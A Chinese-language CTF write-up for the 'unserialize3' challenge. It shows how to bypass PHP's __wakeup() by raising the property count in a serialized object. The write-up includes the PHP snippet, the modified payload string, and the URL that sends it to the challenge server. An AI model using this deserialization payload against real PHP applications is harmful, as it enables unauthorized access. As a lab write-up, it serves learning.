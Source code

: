 # unserialize3
## 题目描述
暂无  

## 思路
http://220.249.52.133:40231  
点开题目链接：  
![avatar](./picture/unserialize3_1.png)  
关键点就这俩，__wakeup() 函数的出现，大概率和反序列化漏洞有关。最后一行大概率是要在 url 中填充 GET 的值。  
我们先补全并运行一下代码，看看会输出什么：  
```php
<?php 
class xctf{
	public $flag = '111';
	public function __wakeup(){
		exit('bad requests');
	}
}
// 没有序列化函数，我们要加上，不然 __wakeup() 函数没啥用啊
$code = serialize(new xctf); 
echo $code;
?> 
```
输出：O:4:"xctf":1:{s:4:"flag";s:3:"111";}   
我们可以看到 "xctf":1 部分，表示 xctf 类中，只有一个属性。  
因此，修改这个输出：O:4:"xctf":2:{s:4:"flag";s:3:"111";} 并构造一个 url：  
http://220.249.52.133:40231/index.php?code=O:4:”xctf“:2:{s:4:”flag“;s:3:”111“;}  
得到 flag：  
![avatar](./picture/unserialize3_2.png)  

## 补充知识
1. __wakeup() 函数用法  
__wakeup() 是用在反序列化操作中。unserialize() 会检查存在一个 __wakeup() 方法。如果存在，则先会调用 __wakeup() 方法。  
2. __wakeup() 漏洞利用  
__wakeup() 漏洞与序列化字符串的属性个数有关。当序列化字符串所表示的对象，其序列化字符串中属性个数大于真实属性个数时就会跳过 __wakeup() 的执行，从而造成 __wakeup() 漏洞。  

